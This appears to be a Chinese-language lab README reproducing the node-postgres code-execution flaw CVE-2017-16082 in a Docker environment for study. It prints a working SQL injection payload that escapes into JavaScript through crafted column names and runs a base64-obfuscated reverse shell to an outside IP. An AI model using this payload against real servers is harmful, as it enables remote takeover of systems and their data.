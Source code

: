 # node-postgres 代码执行漏洞（CVE-2017-16082）

## 漏洞原理

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## 漏洞复现

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息，用sqlmap即可发现此处存在注入点，且数据库为postgres：

![](img/1.png)

那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

将上述payload编码后发送：

![](img/2.png)

成功执行命令，如反弹shell：

![](img/3.png)

因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[我的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。